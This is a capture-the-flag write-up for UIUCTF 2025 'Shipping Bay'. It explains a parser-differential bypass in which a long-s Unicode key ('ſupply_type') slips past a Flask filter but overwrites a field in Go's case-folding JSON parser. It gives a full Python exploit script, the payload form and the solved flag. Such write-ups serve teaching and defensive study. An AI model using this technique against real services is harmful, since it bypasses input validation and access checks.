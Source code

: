```yaml
---
title: UIUCTF 2025 - Shipping Bay
date: 2025-07-30
lastmod: 2025-07-30T13:00:30+02:00
categories:
  - writeup
  - uiuctf25
tags:
  - web
  - python
  - go
  - Parser-differential
  - medium
authors:
  - Valenter
---
```

*UPS lost my package, so I'm switching to a more reliable carrier.*

Here we are in Chapter Three of our Cyberspace Odyssey for uiuctf; this time, we are tasked with retrieving a particular cosmic cargo that got lost during astral shipping.

![Homepage](/uiuctf2025/shipping-bay/screenshot-1.png)

A real flashback to the future with its Y2K/Vaporwave Classic Windows 98 UI, proof that even in the space age, fashion remains cyclical.

## Unpacking the interplanetary cargo

Let's try to create a new shipment.

![shipping](/uiuctf2025/shipping-bay/screenshot-2.png)

We can pick from a variety of options here, but it doesn't really matter, the space courier will always lose our package

```
https://shipping-bay.chal.uiuc.tf/?status=oops+we+lost+the+package
```

Prodding at the code, there doesn't seem to be much we can work with, this debugging flag looks interesting at first:

```python
if __name__ == '__main__':
	app.run(debug=True)
```

but it's merely a red herring, we have no way of triggering the Werkzeug debug console.

Among the various supply types, there is one that piques our interest:

```go
//main.go
func sendShipment(shipment Shipment) string {
    if shipment.SupplyType == "flag" {
        if flag, exists := os.LookupEnv("FLAG"); exists {
            return flag
        }
        return "uiuctf{fake_flag}"
    }
    return "oops we lost the package"
}
```

But in order to retrieve our package, we first have to go through two different checks, this one in Go and the first one in `index.py`:

```python
def create_shipment():
    shipment_data = {k.lower(): v for k, v in request.form.items()}

    if shipment_data['supply_type'] == "flag":
        return "Error: Invalid supply type", 400

    shipment_status = subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)]).decode().strip()

    return redirect(url_for('index', status=shipment_status))
```

Flask collects all submitted fields into a dict, lowercasing each key, so we can't simply enter two identical `supply_type` parameters or use capital letters to trick it into accepting our input.

Note, however, that this still allows us to enter two different `supply_type` fields in our input, as long as the second one is worded ever-so-*slightly* differently.

But how can we bypass it while ensuring that Go still reads a properly formatted `supply_type = flag` from the resulting Json?

## Resistance is futile

Thankfully, my teammate Leonardo came to the rescue and found [this article](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/#case-insensitive-key-matching) that mentions this exact scenario.

We are going to use this character: `ſ` (Latin small long‑s, U+017F, unchanged by `.lower()`), which enables us to construct our final **payload**:

```python
    form = [
        ("origin",       uid),               
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           # passes the first python filter
        ("ſupply_type",   "flag"),           # overwrites the go parser
    ]
``` 

But **what** is going on under the hood?

On the **Python** side, only the ASCII‐key `"supply_type"` is checked, with our payload the ASCII key is still `"Tools"`, so this check passes.

```python
json.dumps(shipment_data)
subprocess.check_output(["/home/user/processing_service", json.dumps(shipment_data)])
```

Json marshalling turns the payload into:

```json
{
  "origin":"…",
  …,
  "supply_type":"Tools",
  "ſupply_type":"flag"
}
```
*note that both keys appear distinctly*

On the **Go** (processing_service) side:

- Go’s JSON unmarshaller scans keys in order and, upon each match, sets the struct field
```go
type Shipment struct {
    …  
    SupplyType string `json:"supply_type"`
    …  
}
```
- It matches keys using **Unicode case‑folding** (`strings.EqualFold`), which maps both ASCII “s” and the long‑s “ſ” to the same fold class “s”.
- Therefore:

	1. On seeing `"supply_type":"Tools"`, it sets `SupplyType = "Tools"`.
    
	2. On seeing `"ſupply_type":"flag"`, it also matches the same field (since “ſ” folds to “s”) and overwrites it with `"flag"`
This gives rise to a sort of pseudo-homographic **parser differential** attack.

#### Final script
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import re, uuid, requests
from urllib.parse import unquote_plus

BASE   = "https://shipping-bay.chal.uiuc.tf/"
CREATE = f"{BASE}/create_shipment"

def pretty(loc):
    if not loc:
        return None
    decoded = unquote_plus(loc)
    print("\n───── Location (decoded) ─────")
    for line in decoded.splitlines():
        print("│", line)
    print("───────────────────────────────")
    m = re.search(r"uiuctf\{[^}]+\}", decoded)
    return m.group(0) if m else None

def main():
    uid = f"Earth‑{uuid.uuid4()}"
    form = [
        ("origin",       uid),               
        ("destination",  "Luna City"),
        ("weight",       "1 ton"),
        ("priority",     "Low"),
        ("vessel",       "USS Tomorrow"),
        ("supply_type",  "Tools"),           #passes Python filter
        ("ſupply_type",   "flag"),           #second field - passes Go's parser
    ]

    r = requests.post(CREATE, data=form, allow_redirects=False, timeout=5)
    print(f"[+] HTTP {r.status_code}")
    for k, v in r.headers.items():
        print(f"    {k}: {v}")

    flag = pretty(r.headers.get("Location", ""))
    print("\n[+] FLAG:", flag or "not found")

if __name__ == "__main__":
    main()
```
### ALL YOUR FLAGS ARE BELONG TO US

**`uiuctf{maybe_we_should_check_schemas_8e229f}`**